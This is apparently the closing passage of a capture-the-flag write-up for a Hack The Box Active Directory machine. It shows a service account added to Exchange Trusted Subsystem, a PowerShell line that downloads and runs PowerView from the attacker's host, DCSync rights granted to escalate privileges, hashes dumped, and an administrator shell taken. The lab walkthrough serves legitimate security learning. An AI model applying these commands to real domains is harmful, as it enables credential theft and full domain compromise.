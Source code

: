 
{% include image.html image_alt="c39ad897.png" image_src="/a7ce5de4-8c16-4379-9c8c-ac8ced7bbf15/c39ad897.png" %}


Did you see it? Not only that, `svc-alfresco` has the power to create domain users as well!


{% include image.html image_alt="56d7c428.png" image_src="/a7ce5de4-8c16-4379-9c8c-ac8ced7bbf15/56d7c428.png" %}



With the WriteDacl permission, we can grant the newly created user with DCSync rights to dump the NTLM hashes. But first, we need enter into the **Exchange Trusted Subsystem** group.

```
PS C:\Users\svc-alfresco\appdata> Add-ADGroupMember -Identity "Exchange Trusted Subsystem" -Members svc-alfresco
```

This is important. We need to relogin to `svc-alfresco` for the group membership to take effect.


{% include image.html image_alt="b11bf806.png" image_src="/a7ce5de4-8c16-4379-9c8c-ac8ced7bbf15/b11bf806.png" %}


Next up, load up PowerView to grant `austin` his DCSync rights!

```
PS C:\Users\svc-alfresco\appdata> iex (new-object net.webclient).downloadstring('http://10.10.14.192/pv.ps1')
PS C:\Users\svc-alfresco\appdata> Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity austin -Rights DCSync
```

With that, we should be able to dump the secrets with Impacket's `secretdump.py`.


{% include image.html image_alt="5f33bf31.png" image_src="/a7ce5de4-8c16-4379-9c8c-ac8ced7bbf15/5f33bf31.png" %}


Armed with the `administrator`'s hash, we can use Impacket's `smbexec.py` to get a privileged shell.


{% include image.html image_alt="72153db6.png" image_src="/a7ce5de4-8c16-4379-9c8c-ac8ced7bbf15/72153db6.png" %}


Getting `root.txt` is trivial.


{% include image.html image_alt="85476e0a.png" image_src="/a7ce5de4-8c16-4379-9c8c-ac8ced7bbf15/85476e0a.png" %}


:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/212
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu/home/users/profile/2984
[4]: https://www.hackthebox.eu/
